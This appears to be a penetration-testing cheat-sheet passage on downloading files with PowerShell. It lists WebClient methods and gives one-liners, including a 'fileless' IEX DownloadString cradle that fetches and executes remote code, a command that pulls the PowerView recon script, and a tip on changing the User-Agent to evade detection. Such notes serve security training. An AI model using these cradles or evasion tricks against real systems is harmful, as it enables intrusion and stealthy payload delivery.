 ***WebClient methods for downloading data from a resource:***

- [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0): Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).

- [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0): Returns the data from a resource without blocking the calling thread.

- [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0): Downloads data from a resource and returns a Byte array.

  - File Download:

    ```cmd
    (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
    ```

    The `WebClient` class provides methods for sending HTTP requests and handling responses, like downloading or uploading data.

  - Fileless (directly execute)

    ```cmd
    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com')
    ```

    You can add ` | IEX` to send pipeline input.

- [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0): Downloads data from a resource and returns a Byte array without blocking the calling thread.

- [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0): Downloads data from a resource to a local file.

- [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0): Downloads data from a resource to a local file without blocking the calling thread.

- [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0): Downloads a String from a resource and returns a String.

- [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0): Downloads a String from a resource without blocking the calling thread.

-  [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.

  ```cmd
  Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
  ```
  
  - Evading detection:
  
    If some User Agents were blacklisted, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default  user agent to one emulating Internet Explorer, Firefox...
  